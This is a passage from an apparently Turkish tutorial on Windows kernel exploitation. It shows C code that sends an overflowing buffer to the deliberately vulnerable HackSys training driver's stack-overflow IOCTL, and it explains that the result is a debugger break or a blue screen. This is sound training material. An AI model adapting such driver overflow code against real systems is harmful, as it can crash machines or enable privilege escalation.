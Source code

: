 ```c
	__stosb(pBuffer + 2048 + 8 + 8, 'D', 8);

	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		pBuffer,
		BufferSize,
		NULL,
		0,
		&Retval,
		NULL);

	printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);

	//
	// CMD ÇALIŞTIR
	//

RETURN:

	if(pBuffer)
	{
		//VirtualFree(pBuffer, 0 , MEM_RELEASE);
		//pBuffer = NULL;
	}

	if(hDeviceHandle)
	{
		CloseHandle(hDeviceHandle);
	}

    return 0;
}
```

Şimdi bu kodu derleyip bahsi geçen sürücünün olduğu makinede çalıştırırsanız, eğer hata ayıklayıcınız bağlı ise hata ayıklayıcısına düşeceksiniz, eğer bağlı değilse mavi ekran hatası alacaksınız. Örneğin hata ayıklayıcımda durum şu şekilde:

![](/files/benimkindedurum.jpg)

`!analyze -v` komutu ile oluşan vukuatın analizini istediğimizde bize oldukça bilgilendirici bir çıktı veriyor.
